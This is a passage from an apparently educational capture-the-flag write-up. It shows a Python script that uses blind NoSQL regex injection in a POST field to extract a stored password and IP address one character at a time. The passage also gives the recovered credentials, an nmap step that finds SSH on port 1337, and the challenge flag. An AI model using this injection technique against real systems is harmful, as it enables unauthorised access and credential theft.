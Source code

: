 ```py
            break
print(f"Password is {password}")

for _ in range(ip_size):
    for c in ["0","1","2","3","4","5","6","7","8","9","."]:
        payload = 'ssh","IP":{"$regex":"^'+ip+c+'.*"},"Service":"ssh'
        res = requests.post(url,cookies=cookies,data={"service":payload}).text
        if "Service is UP" in res:
            ip += c
            break
print(f"IP is {ip}")
```

Once this script has finished running, we get our three pieces of information back :
```
Username is shisuiedo
Password is YogoshaxShisui
IP is 52.2.9.67
```

So we try to connect in SSH and ... it does not work. Here, you just have to do a little nmap to see that another SSH server is running on port 1337, and at the time of the connection :

![alt](images/8.png)

### Flag

Yogosha{Uchiha_SerVicE_To_Kill_DanzO}